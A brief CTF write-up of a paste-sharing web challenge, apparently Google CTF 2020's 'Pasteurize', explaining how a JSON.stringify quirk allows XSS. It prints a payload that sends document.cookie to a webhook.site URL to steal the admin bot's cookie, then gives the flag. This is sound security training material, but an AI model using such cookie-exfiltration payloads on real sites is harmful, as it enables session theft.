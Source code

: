 >This doesn't look secure. I wouldn't put even the littlest secret in here. My source tells me that third parties might have implanted it with their little treats already. Can you prove me right?

### 50pts

The site lets you create a paste and submit to later share it with TJMike.

When you look at the source it is a node,express app where it uses JSON.stringify to converts a JavaScript object or value to a JSON string.

It then slices the first and last char of the input where we can further exploit.

It also uses the DOMPurify library to sanitize input renoving the option of trying DOM based XSS.


escape string also replaces the <,> so our paths are limited to exploiting JSON Stringify where we can send objects and understand the results to then chain together our exploit to fetch the admin details to access the flag.

we can then start with a var and supply our payload

asd[] = ;alert(1);


Now to send the request to TJMIKE and get the flag we need to find a way to send our request to TJMIKE we can use webhook.site and sent the unique URL as an Image payload to then share the paste with TJMIKE and access the cookie with the flag.

`"content[]"=";new Image().src='https://webhook.site/8db05257-6ad1-44a9-979a-574c1caca5d6?asdf='+document.cookie//"`


sharing the paste with TJMike we look at the result at the webhook.site where we then have the flag for the query strings.

CTF{Express_t0_Tr0ubl3s}

https://webhook.site/#!/8db05257-6ad1-44a9-979a-574c1caca5d6/51471bd0-6be7-4555-9fd8-858ed4375897/1

https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/JSON/stringify


### More Writeups
https://github.com/TeamUnderdawgs/CTF-Docs/blob/master/googleCtf2020/Web/pasterize.md

https://7riple7hrea7.com/google/ctf/Pasteurize-GoogleCTF/
